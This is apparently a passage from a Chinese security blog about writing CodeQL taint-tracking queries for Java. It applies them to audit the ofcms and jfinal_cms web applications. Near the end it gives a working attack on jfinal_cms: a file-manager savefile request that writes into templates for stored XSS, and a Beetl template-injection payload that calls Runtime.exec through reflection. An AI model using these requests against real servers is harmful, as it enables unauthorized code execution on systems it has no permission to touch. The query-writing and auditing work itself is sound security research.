cons.getConstructor().getName().matches("HashSet%") and
node1.asExpr()=cons.getArgument(0) and
node2.asExpr()=cons
)
}
}
1.8：Finish line for our first issue
返回一条结果
/**
* @kind path-problem
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph
class Myconf extends TaintTracking::Configuration {
override int explorationLimit() { result = 5 }
Myconf() { this = "Myconf" }
override predicate isSource(DataFlow::Node source) {
exists(Method a|
a.getASourceOverriddenMethod().hasQualifiedName("javax.validation", "ConstraintValidator", "isValid") and
source.asParameter()=a.getParameter(0)
)
}
override predicate isSink(DataFlow::Node sink) {
exists(Call call|
call.getCallee().getQualifiedName().matches("ConstraintValidatorContext.buildConstraintViolationWithTemplate") and
sink.asExpr()=call.getArgument(0)
)
}
}
class Fix extends TaintTracking::AdditionalTaintStep{
override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
exists(MethodAccess ma,Method m |
(m.hasName("getHardConstraints") or m.hasName("getSoftConstraints") or m.hasName("keySet")) and
ma.getMethod()=m and
node1.asExpr()=ma.getQualifier() and
node2.asExpr()=ma
)
or
exists( ConstructorCall cons|
cons.getConstructor().getName().matches("HashSet%") and
node1.asExpr()=cons.getArgument(0) and
node2.asExpr()=cons
)
}
}
from Myconf conf,DataFlow::PathNode source,DataFlow::PathNode sink
where conf.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"

3: Errors and Exceptions
如果sink传入了错误异常处理语句块中的话，我们之前的做法是获取不到这样的sink的，所以我们需要改进。
try {
parse(tainted); //source:tainted
} catch (Exception e) {
sink(e.getMessage()) //sink:getMessage
}
我们先明确这几个需求
对于source 需要source在try语句块内部、需要此try语句块有对应的catch语句块、需要source能抛出错误且该错误能被catch捕获
对于sink 需要sink为特定名字的的方法、需要sink的定语为catch捕获到的错误对象
直接copy的官方wp
class ExceptionTaintStep extends TaintTracking::AdditionalTaintStep {
override predicate step(DataFlow::Node n1, DataFlow::Node n2) {
exists(Call call, TryStmt try, CatchClause catch, MethodAccess getMessageCall |
// call在try语句块内部，且try有对应的catch
call.getEnclosingStmt().getEnclosingStmt*() = try.getBlock() and
try.getACatchClause() = catch and
// call抛出错误且该错误能被catch捕获
(
catch.getACaughtType().getASupertype*() = call.getCallee().getAThrownExceptionType() or
catch.getACaughtType().getASupertype*() instanceof TypeRuntimeException
) and
// sink的定语为catch捕获到的错误对象
catch.getVariable().getAnAccess() = getMessageCall.getQualifier() and
//sink为特定名字的的方法
getMessageCall.getMethod().getName().regexpMatch("get(Localized)?Message|toString") and
n1.asExpr() = call.getAnArgument() and
n2.asExpr() = getMessageCall
)
}
}
ofcms审计试水
看网上有分析文章，跟着搞了一遍
ref:https://www.anquanke.com/post/id/203674#h2-9
说了那么久ctf,不来点实战实在是不给劲，审审这个玩玩
先来看看ofcms的技术栈

发现使用到了jfinal这个MVC web框架。

那么ofcms也就是MVC架构了。我们先来关注一下它的controller。 因为ofcms用到了jfinal框架，所以我们先看下jfinal框架中的controller： com.jfinal.core.Controller

从类型结构可知ofcms的所有controller都继承自jfinal的Controller。 我们可以拿这些controller的getter方法的被调用点为source。
分析了一下，选了这几个Controller com.jfinal.core.Controller、com.ofsoft.cms.front.controller.BaseController、com.ofsoft.cms.api.ApiBase以及com.ofsoft.cms.admin.controller下所有以Controller结尾的class
class ControllerGetter extends MethodAccess{
ControllerGetter(){
(
this.getMethod().getDeclaringType*().getQualifiedName().matches("com.ofsoft.cms.front.controller.BaseController") and
this.getMethod().getName().substring(0, 3)="get"
)or
(
this.getMethod().getDeclaringType*().getQualifiedName().matches("com.ofsoft.cms.api.ApiBase") and
this.getMethod().getName().substring(0, 3)="get"
)or
(
this.getMethod().getDeclaringType*().getQualifiedName().matches("com.ofsoft.cms.admin.controller.%Controller") and
this.getMethod().getName().substring(0, 3)="get"
)or
(
this.getMethod().getDeclaringType*().getQualifiedName().matches("com.jfinal.core.Controller") and
this.getMethod().getName().substring(0, 3)="get"
)
}
}
sink的定义就多了。
文件类
我们可以先定义文件类的sink，java的文件类操作大多会用到类java.io.File，所以我们可以定义sink为java.io.File的构造方法中的参数
class SinkFile extends ClassInstanceExpr {
SinkFile(){
this.getConstructor().getDeclaringType*().hasQualifiedName("java.io","File" )
}
}
模板渲染类
也可以以模板注入为思考的对象，将渲染相关方法的参数设为sink
com.jfinal.core.Controller中定义了这些渲染方法


class SinkRender extends MethodAccess{
SinkRender(){
this.getMethod().getDeclaringType*().hasQualifiedName("com.jfinal.core", "Controller") and
this.getMethod().getName().substring(0, 6)="render"
}
}
搞了上面几个sink，我就感受到了一些困惑：
1.如何快速判断目标项目用了哪些依赖？ 2.如何快速找到目标项目的sink点？
对于问题1，我目前想到最好的方法就是看pom.xml
对于问题2，我目前想到的方案是看看codeql自带的ql文件中是如何定义ql，去这里面找找灵感
jfinal_cms 审计
某种意义上的第一次审计
初次尝试
jfinal_cms也是基于jfinal的，这给我们source的定义提供了便利，直接照抄微改一下上一小节ofcms的source
class ControllerSource extends MethodAccess{
ControllerSource(){
this.getMethod().getDeclaringType*().hasQualifiedName("com.jfinal.core", "Controller") and
this.getMethod().getName().substring(0, 3)="get"
}
}
sink，先来指定new File
abstract class Sink extends Top{
abstract Expr getInput();
}
class FileConstructorSink extends ClassInstanceExpr,Sink{
FileConstructorSink(){
//this.getConstructor().getDeclaringType*().getASupertype*().hasQualifiedName("java.io","File") or
this.getConstructor().getDeclaringType*().getASupertype*().hasQualifiedName("java.io","Writer") or
this.getConstructor().getDeclaringType*().getASupertype*().hasQualifiedName("java.io","Reader") or
this.getConstructor().getDeclaringType*().getASupertype*().hasQualifiedName("java.io","FileInputStream")
}
override Expr getInput(){
result=this.getAnArgument()
}
}
扫出来三个，都不能打。看看其它目标吧
指定render
class RenderSink extends Sink,MethodAccess{
RenderSink(){
this.getMethod().getDeclaringType*().hasQualifiedName("com.jfinal.core", "Controller") and
this.getMethod().getName().substring(0, 6)="render"
}
override Expr getInput(){
result=this.getAnArgument()
}
}
同样 也没有什么收获，直到我添加了下面的这两个AdditionalTaintStep
class TaintFix1 extends TaintTracking::AdditionalTaintStep{
override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
exists(EnhancedForStmt fs |
node1.asExpr()=fs.getExpr() and
node2.asExpr()=fs.getVariable()
)
}
}
class TaintFix2 extends TaintTracking::AdditionalTaintStep{
override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
exists(MethodAccess ma |
node1.asExpr()=ma.getQualifier() and
node2.asExpr()=ma
)
}
}

16个结果，每个结果都很长，慢慢看。最后只找到了下面两个能打的
XSS

url:http://localhost:8080/jfinal_cms/admin/filemanager
post:content=\\&mode=savefile\&path=template/bbs/message/show_message.html
简单讲一下post里面参数的意义，mode设置为savefile且post发包，就会进入savefile方法

然后就会以将path的值拼接在网页根目录后面，这样获得一个绝对路径，然后再将content里的内容写入到这个绝对路径指定的文件中。 我们便可以直接将xss payload写入静态html文件，造成xss攻击

但说实话。没啥卵用。
**一些困难 **
这个洞的path参数有一个waf

我还没想出怎么绕成目录穿越，如果能绕出目录穿越就是任意文件写了
从XSS到RCE
我们刚刚提到，可以对模板文件任意写入内容嘛。 在此之前我一直以为作用仅限于XSS了，但是转念一想，既然控制模板文件了，那么就可以模板注入了啊，然后就可以调用Runtime.getRuntime().exec()啊。 参考自：https://i.hacking8.com/page/21674
jfinal_cms模板引擎用的beetl，beetl默认禁用java.lang.Runtime和java.lang.Proces，所以要绕过一下
content=${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",
@java.lang.Class.forName("java.lang.String")).invoke(
@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}&mode=savefile&path=template/bbs/message/show_message.html

然后，挖不动了，这个cms用codeql跑了许多次都没有能打的，我太菜了。